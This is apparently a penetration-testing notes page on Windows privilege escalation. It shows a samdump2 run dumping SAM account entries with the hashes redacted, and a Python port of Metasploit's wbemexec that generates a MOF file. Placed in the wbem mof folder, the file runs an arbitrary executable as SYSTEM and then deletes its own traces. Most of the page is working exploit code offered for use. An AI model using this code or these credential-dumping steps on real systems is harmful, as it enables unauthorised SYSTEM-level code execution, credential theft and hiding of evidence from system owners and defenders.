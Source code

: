 # Privilege Escalation

## SAM File

```bash
root@kali:/tmp# samdump2 System SAM
Administrator:500:REDACTED:REDACTED:::
*disabled* Guest:501:REDACTED:REDACTED:::
*disabled* HelpAssistant:1000:REDACTED:REDACTED:::
*disabled* SUPPORT_388945a0:1002:REDACTED:REDACTED:::
```

## MOF Files

These are useful in the event of an arbitrary read/write on the file system as a SYSTEM User.  For this to work the OS must be XP or lower.  In effect, a MOF file written to `%SystemRoot%\System32\wbem\mof\`, will be compiled automatically by the OS, and allows arbitrary code execution.  A good overview of MOF files themselves is [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html).

Below is a python version of metasploit's [wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb) for executing a file in the System32 folder.

```python
def genMof(mofName, exe):
    classname = str(randint(0, 9999))
    mof = """#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass{class}
{
      [key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
     [key] string Name;
      [not_null] string ScriptingEngine;
      string ScriptFileName;
      [template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"{exename}\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass{class}\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
};
Instance of ActiveScriptEventConsumer as $cons2
{
  Name = "qndASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\nvar objfs = new ActiveXObject(\\"Scripting.FileSystemObject\\");\\ntry {var f1 = objfs.GetFile(\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\{mofname}\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\"{exename}\\");\\nf2.Delete(true);\\nvar s = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");s.Delete(\\"__EventFilter.Name='qndfilt'\\");s.Delete(\\"ActiveScriptEventConsumer.Name='qndASEC'\\");\\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass{class}\\"";
  QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
  Name = "qndfilt";
  Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\"Win32_Process\\" AND TargetInstance.Name = \\"{exename}\\"";
  QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
  Consumer = $cons2;
  Filter = $Filt2;
};
instance of MyClass{class} as $MyClass
{
  Name = "ClassConsumer";
};"""
    mof = sub('{class}', classname, mof)
    mof = sub('{exename}', exe, mof)
    mof = sub('{mofname}', mofName, mof)
    return mof
```

#### References

[Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)  
[How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)  
[https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb)



